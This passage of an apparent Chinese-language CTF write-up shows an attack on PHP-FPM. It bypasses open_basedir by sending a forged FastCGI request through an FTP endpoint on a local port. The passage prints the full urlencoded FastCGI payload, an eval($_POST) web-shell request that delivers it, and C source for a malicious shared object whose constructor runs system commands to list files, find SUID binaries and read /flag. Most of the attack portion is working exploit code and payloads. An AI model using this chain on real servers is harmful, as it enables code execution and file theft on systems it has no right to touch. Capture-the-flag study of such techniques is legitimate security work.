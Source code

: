```php
  fclose($socket);
}
```

urlencode之后传入，再扫一下端口可以看到46819开放，说明服务正常；还是用之前p牛的脚本构造，这里我们要修改的配置项是这些

```
'PHP_ADMIN_VALUE': 'allow_url_include = On\nopen_basedir = /\nextension = /tmp/wuhu.so',
```

覆盖掉open_basedir的原有设置，再加上.so文件（稍后上传）；具体的payload也可以用p牛的脚本魔改一下

![image-20211113011624783](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211113011624783.png)

注释掉157-159对连接状态的判断，在191创建连接前将request部分直接输出urlencode的版本然后exit(0)一波退出

```bash
$ python fpm.py 127.0.0.1 '/var/www/html/index.php'
%01%01Mp%00%08%00%00%00%01%00%00%00%00%00%00%01%04Mp%02%05%00%00%11%0BGATEWAY_INTERFACEFastCGI/1.0%0E%04REQUEST_METHODPOST%0F%17SCRIPT_FILENAME/var/www/html/index.php%0B%17SCRIPT_NAME/var/www/html/index.php%0C%00QUERY_STRING%0B%17REQUEST_URI/var/www/html/index.php%0D%01DOCUMENT_ROOT/%0F%0ESERVER_SOFTWAREphp/fcgiclient%0B%09REMOTE_ADDR127.0.0.1%0B%04REMOTE_PORT9985%0B%09SERVER_ADDR127.0.0.1%0B%02SERVER_PORT80%0B%09SERVER_NAMElocalhost%0F%08SERVER_PROTOCOLHTTP/1.1%0C%10CONTENT_TYPEapplication/text%0E%02CONTENT_LENGTH25%09%1FPHP_VALUEauto_prepend_file%20%3D%20php%3A//input%0F%40PHP_ADMIN_VALUEallow_url_include%20%3D%20On%0Aopen_basedir%20%3D%20/%0Aextension%20%3D%20/tmp/wuhu.so%01%04Mp%00%00%00%00%01%05Mp%00%19%00%00%3C%3Fphp%20phpinfo%28%29%3B%20exit%3B%20%3F%3E%01%05Mp%00%00%00%00
```

```
/?glzjin=eval($_POST[%27a%27]);
POST: a=$payload=urldecode('%01%01%29%BE%00%08%00%00%00%01%00%00%00%00%00%00%01%04%29%BE%02%05%00%00%11%0BGATEWAY_INTERFACEFastCGI/1.0%0E%04REQUEST_METHODPOST%0F%17SCRIPT_FILENAME/var/www/html/index.php%0B%17SCRIPT_NAME/var/www/html/index.php%0C%00QUERY_STRING%0B%17REQUEST_URI/var/www/html/index.php%0D%01DOCUMENT_ROOT/%0F%0ESERVER_SOFTWAREphp/fcgiclient%0B%09REMOTE_ADDR127.0.0.1%0B%04REMOTE_PORT9985%0B%09SERVER_ADDR127.0.0.1%0B%02SERVER_PORT80%0B%09SERVER_NAMElocalhost%0F%08SERVER_PROTOCOLHTTP/1.1%0C%10CONTENT_TYPEapplication/text%0E%02CONTENT_LENGTH25%09%1FPHP_VALUEauto_prepend_file%20%3D%20php%3A//input%0F%40PHP_ADMIN_VALUEallow_url_include%20%3D%20On%0Aopen_basedir%20%3D%20/%0Aextension%20%3D%20/tmp/wuhu.so%01%04%29%BE%00%00%00%00%01%05%29%BE%00%19%00%00%3C%3Fphp%20phpinfo%28%29%3B%20exit%3B%20%3F%3E%01%05%29%BE%00%00%00%00');var_dump(file_put_contents('ftp://127.0.0.1:46819/wuhu',$payload));
```

![image-20211114223615660](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211114223615660.png)

写恶意.so

```c
#define _GNU_SOURCE
#include <stdlib.h>

__attribute__ ((__constructor__)) void preload (void)
{
    system("ls / -al > /tmp/p1.txt");
    system("find / -perm -4000 2>/tmp/p2.txt");
    system("cat /flag > /tmp/p3.txt");
}
```

